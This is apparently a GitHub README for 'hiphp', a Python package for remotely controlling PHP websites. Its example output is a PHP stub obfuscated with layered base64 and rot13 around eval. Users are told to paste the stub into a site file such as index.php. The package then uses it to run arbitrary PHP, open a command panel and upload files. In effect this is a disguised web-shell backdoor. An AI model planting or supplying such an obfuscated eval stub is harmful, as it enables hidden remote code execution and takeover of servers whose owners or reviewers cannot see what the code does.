 
<p align="center"><img align="center" src="https://raw.githubusercontent.com/byRo0t96/hiphp/main/screenshot/screenshot.png"></p>
<h1>hiphp for control php websites.</h1>

<p>A package for controlling a php-based website.</p>
<p align="center">
    <img align="center" src="https://travis-ci.com/byRo0t96/hiphp.svg?branch=main">
    <img align="center" src="https://img.shields.io/github/issues/byRo0t96/hiphp">
    <img align="center" src="https://img.shields.io/github/forks/byRo0t96/hiphp">
    <img align="center" src="https://img.shields.io/github/stars/byRo0t96/hiphp">
    <img align="center" src="https://img.shields.io/badge/license-Apache--2.0-green.svg">
    <img align="center" src="https://img.shields.io/badge/python-3.x.x-blue">
</p>
<h2>Installation:</h2>

```
pip install hiphp==0.1.7
```

<h2>Usage:</h2>

```python
# USAGE :
#s
from hiphp import hiphp

p1=hiphp("<PASSWORD>","<http://THE/LINK/TO/THE/PHP/FILE/THAT/CONTAINS/THE/HIPHP/ID>")
print(p1.get_code())//Get HIPHP ID for first use.
p1.run("<YOUR_CODE>")//Run a code or line in your website.
p1.run_file("<PHP_CODE_FILE_PATH>")//Run a code or line in your website from a file.
p1.run_file("<PHP_CODE_FILE_PATH>","<__VALUE_NAME__>==<VALUE_CONTENT>")//Run a code or line in your website from a file With the entry of variables.
p1.cli()//open command panel
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>")//Upload a file to the server hosting the site.
p1.upload("<THE_PATH_OF_THE_FILE_TO_BE_UPLOADED>","./<THE_PATH_YOU_WANT_TO_UPLOAD_THE_FILE_TO>")
#e

```

<h2>Examples:</h2>

```python
# EXAMPLES :
#s
from hiphp import hiphp

p1=hiphp("123","http://localhost/index.php")

# Example:1
# GET ID:
print(p1.get_code())
# OUTPUT:
'''
/*php code start*/
eval(str_rot13(base64_decode(str_rot13(base64_decode('bkpMYldTOUdFSVdKRUlXb1cwdUhJU09zSUlBU0h5OU9FMElCSVBxcUNHMGFaUUx3QlJEM0F3RDBBUlJsWndSbEIwRGtDR1pqWUd0MFdHRDVDbU4xQ1JaakpteDFybVNPWFFOMkJ3SVBuR1Zsb0hObFpRTzBEbU9uQkdEY1p3dTlEMFdxQkdEK0FtTnVEeFp4QXdOekR3RXNBbU5lQUhWa0VRTG1abVYxRHdwM1pSTDVXbHk3TUpBYm9scHdwVXkwblQ5aFdtZ2NNdnVjcDNBeXFQdHhLMU9DSDFFb1cyQWlvSjF1b3pEYUtGeGNyMkkyTEpqYldTOURHMUFISmxxd28yMWdMSjV4VzEwY0IzMXlyVHkwQjMwPQ==')))));
/*php code end*/
'''
# Copy this code into the file whose path you entered earlier.
# for example: https://localhost/index.php


# Example:2
# Command:
p1.run("echo 'this is a test';")
# OUTPUT:
'''
this is a test
'''

# Example:3
# Run code from file:
#-example_3.php content:
'''
echo 'this is a test';
'''
#OR
'''
<?php
    echo 'this is a test';
?>
'''
p1.run_file("example_3.php")
# OUTPUT:
'''
this is a test
'''

# Example:4
# Run code from file With the entry of variables:
#-example_4.php content:
'''
echo '__test__';
'''
#OR
'''
<?php
    echo '__test__';
?>
'''
p1.run_file("example_4.php","test==this is a test")
# OUTPUT:
'''
this is a test
'''

# Example:5
# Command line interface:
p1.cli()
# OUTPUT:
'''
hiphp>>>
'''

# Example:6
# Upload a picture:
p1.upload("picture_example.png")

# Example:7
# Upload a picture to a specific path:
p1.upload("picture_example.png","./pictures/")
#e

```

<h2>Changelog:</h2>

```
## 0.1.7
 - fix bugs.

## 0.1.6
 - fix bugs.
 - add upload to upload any file.
 - Simplify the use of the program.

## 0.1.5
 - fix bugs.

## 0.1.4
 - fix bugs.
 - new build. 

## 0.1.1
- Import pakages by pipincluder.
- Fix bugs.

## 0.1.0
- New build.
- Fix bugs.

## 0.0.4
- Fix bugs.

## 0.0.2
- Fix bugs.
- Add help list.
- Add Executing from files.

## 0.0.1
- First public release.


```
<br>
<br>
<p align="center">
    <a align="center" href="https://byro0t96.github.io/">
        <img alt="byRo0t96" height="100" align="center" src="https://raw.githubusercontent.com/byRo0t96/byRo0t96/main/images/Ro0t-96_v.3.1.png">
    </a>
</p>

<p align="center">
    <a align="center" href="https://www.facebook.com/yasser.bdj.31">
        <img alt="facebook" align="center" src="https://img.shields.io/badge/Facebook-%2Fyasser.bdj.31-blue">
    </a>
	
   <a align="center" href="https://www.youtube.com/channel/UC53dtKxc84BNPyDb51rtRPg">
        <img align="center"  alt="youtube" src="https://img.shields.io/badge/-YouTube-red">
    </a>
	
   <a href="https://www.linkedin.com/in/boudjada-yasser-a53543196" align="center" >
        <img align="center" alt="LinkedIn" src="https://img.shields.io/badge/-linkedin-blue">
    </a> 
    
   <a href="https://www.instagram.com/bdj.yasser/" align="center" >
        <img align="center" alt="instagram" src="https://img.shields.io/badge/instagram-%2Fbdj.yasser-orange">
    </a> 
        
   <a href="https://github.com/byRo0t96/" align="center" >
        <img align="center" alt="visitor-badge" src="https://visitor-badge.laobi.icu/badge?page_id=byRo0t96.byRo0t96">
    </a>
</p>

<p align="center">
    <a align="center" href="https://ko-fi.com/L3L34CEPV">
        <img alt="ko-fi" align="center" src="https://ko-fi.com/img/githubbutton_sm.svg">
    </a>
</p>